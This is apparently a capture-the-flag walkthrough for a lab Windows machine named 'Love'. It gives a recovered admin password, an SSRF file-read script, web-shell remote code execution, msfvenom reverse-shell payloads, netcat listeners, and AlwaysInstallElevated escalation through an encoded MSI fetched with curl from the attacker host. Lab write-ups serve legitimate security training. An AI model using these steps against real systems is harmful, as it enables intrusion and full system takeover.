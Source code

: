 ## Info 
### Credential
User   | Password            | Service | Notes
-------|---------------------|---------|-------
phoebe |                     |         |
roy    |                     |         | email: roy@love.htb
admin  | @LoveIsInTheAir!!!! | voting  |
### Host
- hostname: staging.love.htb, love.htb, 
- OS: Windows 10 Pro 19042
- Computer Name: Love

### Http (80)
- `/`: voting system login
- `/admin`: voting admin login
- `staging.love.htb`: file scanner, can upload files

### Https (443)
- 403 from remote

### Http (5000)
- 403 from remote
- Credential of admin from 127.0.0.1
```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```



## Path
### User
1. By trying at `/admin/index.php`, I found it has an user `admin`.
2. Found `staging.love.htb` has  an file upload webpage, which we can use to read the file on the server.
```
# read-file.py
import requests as rq

url ='http://staging.love.htb/beta.php'

def read_file(f, end=None):
        res = rq.post(url, data={'file': f, 'read': 'Scan file'}).text
        start = res.find('value="Scan file')+30
        if end:
                end = start + end
                print(res[start:end])
        else:
                print(res[start:])
```
3. Use above script to view `http://127.0.0.1:5000` and get admin's credential `@LoveIsInTheAir!!!!`
```
>>> read_file('http://127.0.0.1:5000', 2000)
...
<strong>Vote Admin Creds admin: @LoveIsInTheAir!!!!
```
4. Login as admin and found that voters' images can upload file and trigger RCE.
5. Get user flag with RCE.
```
$ curl 'http://10.10.10.239/images/rev.php?cmd=type%20C:\Users\phoebe\Desktop\user.txt'
XXXXXXXXXXXXXXXXXXXXXX
```
6. Get shell use following command
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=13337 -f exe > reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
# upload reverse.exe
# visit http://10.10.10.239/images/rev.php?cmd=.\reverse.exe 
$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.239 54473
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

### Root
1. Run `winPEASx64.exe` shows that there is AlwaysInstallElevated vulnerability. So generate the payload via `msfvenom`, then install the .msi on the remote to get SYSTEM reverse shell. Install msi takes time, be patient.
```
# Remote
> .\winPEASx64.exe
...
[+] Checking AlwaysInstallElevated
[?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

# Local
$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=13337 --encoder x
64/xor --iterations 9 --format msi --out rev.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
$ python3 -m http.server

# Remote
> curl 10.10.16.3:8000/rev.msi --output rev.msi
> msiexec /i rev.msi

# Local
$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.239 54556
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.


C:\WINDOWS\system32>whoami
nt authority\system
```

 
